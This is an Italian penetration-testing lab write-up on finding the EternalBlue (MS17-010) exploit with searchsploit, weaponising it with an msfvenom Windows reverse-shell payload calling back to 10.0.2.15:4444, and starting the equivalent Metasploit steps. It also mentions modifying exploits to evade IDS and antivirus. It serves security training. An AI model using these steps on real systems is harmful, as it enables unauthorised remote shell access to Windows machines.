





# Analisi e Preparazione Exploit

Strumenti: Searchsploit, Msfvenom

---

## 1 Introduzione Teorica

Searchsploit è lo strumento standard per la ricerca offline nell'archivio di Exploit-DB.
Durante un Penetration Test, dopo aver identificato una vulnerabilità e calcolato il suo rischio (CVSS), il passo successivo è verificare l'esistenza di Public Exploits (PoC).
L'utilizzo di Searchsploit garantisce la possibilità di operare in ambienti isolati (air-gapped) e di accedere rapidamente al codice sorgente degli exploit per l'analisi e l'adattamento.

Se il CVSS ti dice "Quanto è grave il problema", Searchsploit ti dice "Esiste già un codice pronto per sfruttarlo?"

---

## 2 Ricerca Exploit (Searchsploit)

Utilizzando il database locale di Exploit-DB, è stata effettuata una ricerca per la vulnerabilità MS17-010.

Comando:

```Bash
sudo searchsploit -u    # aggiorna il database
searchsploit MS17-010   # cerca exploit per la vulnerabilità EternalBlue 
```



Risultato: È stato identificato lo script `windows/remote/42315.py` come candidato ideale, in quanto supporta Windows 10 e Windows Server 2016.

Acquisizione (Mirroring): L'exploit è stato copiato nella directory di lavoro per l'analisi.

```Bash
searchsploit -m 42315
```



---

## 3 Analisi del Codice Sorgente

Prima dell'utilizzo, il codice è stato ispezionato per comprendere il funzionamento e identificare i parametri configurabili.

Comando:

```Bash
ls -l 42315.py
head -n 10 42315.py
```



Osservazioni: Lo script è scritto in Python e utilizza la libreria impacket per manipolare i pacchetti SMB. Richiede la sostituzione dello shellcode di default con uno shellcode specifico per il nostro target.

---

## 4 Generazione del Payload (Weaponization)

Per trasformare l'exploit in uno strumento offensivo efficace, è necessario generare uno Shellcode personalizzato. È stato scelto un payload di tipo Reverse TCP, che istruisce la vittima a connettersi alla macchina attaccante (bypassando i firewall in ingresso).

Comando Msfvenom:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f python
```

- `-p windows/x64/shell_reverse_tcp`: Payload per Windows a 64-bit che offre una shell di comando remota.
- `LHOST=10.0.2.15`: Indirizzo IP della macchina attaccante (Kali).
- `LPORT=4444`: Porta di ascolto.
- `-f python`: Formato di output compatibile con lo script dell'exploit.

Output Generato:



Analisi del Payload: Il blocco di codice generato (buf) contiene le istruzioni macchina (Assembly) che verranno eseguite in memoria dalla vittima dopo il successo dell'exploit EternalBlue, garantendo l'accesso remoto al sistema.

#### Exploitation

Adesso arriva la parte più divertente. Abbiamo visto che modificare lo script Python a mano è difficile e rischioso. Per questo motivo, nel mondo reale si usano i Framework di Exploitation. Il re indiscusso è Metasploit Framework.

Metasploit automatizza tutto quello che abbiamo appena fatto a mano:
- Trova l'exploit giusto.
- Genera lo shellcode (payload) da solo.
- Lo inietta nella memoria della vittima in modo (abbastanza) stabile.
- Gestisce la connessione di ritorno (Reverse Shell).

Sei pronto a prendere il controllo di Windows 10?
Passo 1: Preparazione di Metasploit

Apri un terminale su Kali e segui questi passaggi.

1. Inizializza il Database Metasploit usa un database per cercare velocemente (come searchsploit). Va avviato prima.

```Bash
sudo msfdb init
```

2. Avvia la Console Questo aprirà la famosa interfaccia a riga di comando col logo "tamarro".

```Bash
msfconsole
```

3. Cerca EternalBlue Dentro la console di Metasploit (che ora ha un prompt tipo msf6 >), cerca l'exploit.

```Bash
search eternalblue
```



---

## 5 Conclusioni

L'attività ha dimostrato come passare dalla teoria alla pratica nell'analisi delle vulnerabilità. Sebbene l'esecuzione di exploit kernel-mode (come EternalBlue) tramite script manuali sia complessa e rischiosa (potenziale crash del sistema), la capacità di generare shellcode personalizzati con msfvenom è il primo passo fondamentale per la fase di Exploitation.

Il prossimo step logico prevede l'utilizzo di framework automatizzati come Metasploit per gestire l'attacco in modo più stabile e controllato.

---

## 6 Approfondimento Tecnico

Nota: Durante l'analisi è emerso che l'esecuzione diretta dello script (`python 42315.py`) non è sufficiente per condurre un attacco con successo. Di seguito l'analisi tecnica delle motivazioni.

1. Il Codice Pubblico è solo un "Modello" (Template)
Gli exploit pubblici (Exploit-DB) sono spesso privi di payload offensivi specifici o contengono parametri generici.
- Target IP: Lo script originale non conosce la vittima (spesso usa IP placeholder come `192.168.1.1`).
- Payload Mancante: Lo script originale spesso esegue azioni benigne (es. aprire la calcolatrice o crashare il sistema) come Proof of Concept (PoC). Per ottenere accesso remoto, è necessario iniettare uno Shellcode (generato con Msfvenom) che sostituisca il codice originale.

2. Valore per il Penetration Tester
Anche se incompleto, il codice sorgente è fondamentale per:
- Validazione (PoC): Verificare se una vulnerabilità segnalata da uno scanner (es. OpenVAS) è reale o un falso positivo.
- Evasione: Modificare il comportamento del codice per aggirare firme IDS/IPS o Antivirus.
- Comprensione: Analizzare la logica dell'attacco per scrivere regole di difesa mirate.